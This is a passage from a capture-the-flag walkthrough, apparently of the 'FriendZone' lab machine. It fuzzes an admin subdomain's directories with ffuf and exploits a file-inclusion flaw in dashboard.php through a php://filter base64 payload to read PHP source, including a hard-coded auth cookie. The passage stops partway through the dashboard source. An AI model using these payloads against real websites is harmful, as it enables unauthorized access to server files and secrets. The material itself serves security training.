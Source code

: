 We see at the bottom left, there is a UNIX timestamp the equates to the time we visited this site. Let’s fuzz for other pages:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u https://administrator1.friendzone.red/FUZZ -ic -e .php

.php                    [Status: 403, Size: 309, Words: 22, Lines: 12, Duration: 26ms]
                        [Status: 200, Size: 2873, Words: 393, Lines: 123, Duration: 23ms]
images                  [Status: 301, Size: 349, Words: 20, Lines: 10, Duration: 26ms]
login.php               [Status: 200, Size: 7, Words: 2, Lines: 1, Duration: 24ms]
dashboard.php           [Status: 200, Size: 101, Words: 12, Lines: 1, Duration: 15ms]
timestamp.php           [Status: 200, Size: 36, Words: 5, Lines: 1, Duration: 25ms]
```

Let’s visit timestamp.php

```bash
https://administrator1.friendzone.red/timestamp.php
```

This means that the dashboard page will include a file and add a .php extension to it. Let’s try reading the source code of timestamp with php filter:

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=timestamp
```

Now base64 decode it:

```bash
echo 'PD9waHAKCgokdGltZV9maW5hbCA9IHRpbWUoKSArIDM2MDA7CgplY2hvICJGaW5hbCBBY2Nlc3MgdGltZXN0YW1wIGlzICR0aW1lX2ZpbmFsIjsKCgo/Pgo=' | base64 -d 
```

```bash
<?php

$time_final = time() + 3600;

echo "Final Access timestamp is $time_final";

?>
```

Now let’s read dashboard:

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=dashboard
```

dashboard.php:

```bash
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
```